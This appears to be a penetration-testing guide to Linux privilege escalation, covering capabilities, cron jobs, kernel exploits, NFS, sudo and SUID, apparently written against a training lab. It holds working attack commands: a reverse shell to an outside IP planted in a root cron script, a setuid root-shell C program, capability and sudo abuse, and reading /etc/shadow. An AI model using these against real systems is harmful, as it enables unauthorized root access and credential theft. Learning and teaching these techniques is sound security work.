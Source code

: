 # Linux Privilege Escalation Techniques

## Automated Tools

* [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

## Capabilities

Capabilities are somewhat like SUID but more granular. A SUID bit can set a binary to have privileged access to everywhere whereas a binary with a capability set may have privileged access to just one part of the kernel (such as the ability to open raw sockets).

WIth this in mind it may be possible to perform privilege escalation by abusing a capability on a binary.

To view the capabilities on a system run the following command:

```
getcap -r / 2>/dev/null
```


Looking at the output of capability set binaries above we can compare these with [<mark style="color:red;">GTFOBins</mark>](https://gtfobins.github.io/#+capabilities) to look for privilege escalation opportunities.



As per the above image from GTFOBins we can attempt to abuse the `CAP_SETUID` capability on the `view` binary to spawn a root shell.

```bash
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Cron Jobs

Cron jobs are tasks which can execute scripts on the system at predetermined times (similar to Windows Task Scheduler).

Under particular circumstances it may be possible to abuse these for privilege escalation. Any user can read the file keeping system-wide Cron jobs under `/etc/cron`.



At the bottom of the image we can see where cron jobs owned by root are executing scripts every minute (represented by a wildcard).

The abuse function for Cron jobs exist where the jobs are executed in the context of the owner or in the case of above, root. If we can modify or replace a script that is called by a Cron job, privilege escalation will be possible.

It is also important to mention the PATH that is defined in `/etc/cron`. For any scripts called by Cron that are not fully defined i.e, in the above example `antivirus.sh` is not a fully defined path, if we was to place a reverse shell file called antivirus.sh anywhere in the defined path `PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin` (Providing we have permission to any of the path) this would then be executed by Cron (as root).

Taking another example form the output the following line is of interest.

```
* * * * *  root /home/karen/backup.sh
```

This job is owned by root and points to a file in the current users home directory. Being as this is in the current users home directory the user has full permission over the file. The file can be overwritten and then when executed will run with our own code as the root user.

```
# clear the contents of the current backup.sh file
echo  > backup.sh

# echo in reverse shell code
echo "#!/bin/bash" > backup.sh
echo "sh -i >& /dev/tcp/10.14.13.184/80 0>&1" >> backup.sh
```

Wait for the job to run and a reverse shell should be caught as root.



## Kernel Exploits

The kernel on an operating system works at a low and facilitates communication and between the hardware and applications. As the kernel requires privileged permissions to function correctly a kernel exploit can often lead to an escalation of privileges.

Generally the process of kernel exploitation from an adversary perspective involves performing enumeration on the target system and depending on the version of the kernel running on the target system, perform an exploit if one is available.

Tools such as [<mark style="color:red;">Linux Exploit Suggester</mark>](https://github.com/mzet-/linux-exploit-suggester) can be used to help identify if the current OS and kernel are vulnerable to any known exploits.

## NFS

By default, NFS shares change the root user to the `nfsnobody` user, an unprivileged user account. In this way, all root-created files are owned by `nfsnobody`, which prevents uploading of programs with the setuid bit set. If `no_root_squash` is used, remote root users are able to change any file on the shared file system and leave trojaned applications for other users to inadvertently execute. [<mark style="color:red;">\[Source\]</mark>](https://access.redhat.com/documentation/en-us/red\_hat\_enterprise\_linux/4/html/security\_guide/s2-server-nfs-noroot)

{% hint style="info" %}
This attack method requires the adversary to already have shell access on the target system.
{% endhint %}

Given the above information we can check from the target system what NFS shares have `no_root_squash` enabled by reading `/etc/exports`.



From above we can see that available NFS shares from within the target system. All shares have `no_root_squash` enabled. We will be using the `/tmp` share as the example going forward.

From the adversary's perspective the NFS shares have been enumerated with `Nmap` and the attacker has discovered the shares are mountable.

```bash
nmap --script nfs-ls,nfs-statfs <IP>
```



On the adversary's attacking system a directory is created from where the target systems `/tmp` directory can be mounted

```bash
mkdir /tmp/1
sudo mount -o rw <IP>:/tmp /tmp/1 
```

From the attackers machine we can see the contents of the target system `/tmp` directory.



Next, a simple C application is created which will spawn a bash shell.

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
 }
```

{% hint style="info" %}
Other C payloads can be found here: [<mark style="color:red;">BookHackTricks</mark>](https://book.hacktricks.xyz/linux-unix/privilege-escalation/payloads-to-execute#c)<mark style="color:red;">.</mark>
{% endhint %}

The C code can then be compiled locally on the attackers system.

```
gcc -w shell.c -o shell
```

Then the SUID bit can be set on the shell file.

```
sudo chmod +s shell
```

Now compiled and the SUID bit set we should now see the shell file from the perspective of the target systems `/tmp` directory.



Then, executing the shell file locally on the target system should obtain a root shell.



## Sudo

Circumstances can exists where select users are given sudo rights to particular binaries instead of sudo rights for an entire system. In this way it may be possible to abuse the `sudo` function for a binary to spawn a root shell.

GTFOBins is the prime resource for finding the appropriate methods for the binaries.

**GTFOBins:** [https://gtfobins.github.io/](https://gtfobins.github.io)

```
$ sudo -l

User karen may run the following commands on ip-10-10-21-57:
    (ALL) NOPASSWD: /usr/bin/find
$
```

The above code block represents the result of checking `sudo` permissions for the current user with `sudo -l`. As shown in the code block the user karen is able to run the find binary as any user `(ALL)` without specifying a password `(NOPASSWD).`

From the following [<mark style="color:red;">link</mark>](https://gtfobins.github.io/gtfobins/find/) we can see that find can be used to spawn a root shell.



Execution shown below



***

## **SUID**

The SUID bit can be used to execute file and binaries in the context of the file owner. For example, a binary owned by root which has the SUID bit set would indicate another user is able to execute the binary in the context of root (the file owner).

The command below can be used to find binaries and files with the SUID bit set.

```
find / -type f -perm -04000 -ls 2>/dev/null
```



As we can see the from the image above the SUID bit is set on `/usr/bin/base64`. Referring to the GTFOBins link below we can see this can be used for privilege escalation on the base64 binary.

* **GTFOBins SUID:** [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)


As with the example above this can be used to read the shadow file (owned by root) where hashes can then be extracted for password cracking (as an example).

```
/usr/bin/base64 /etc/shadow | base64 --decode
```


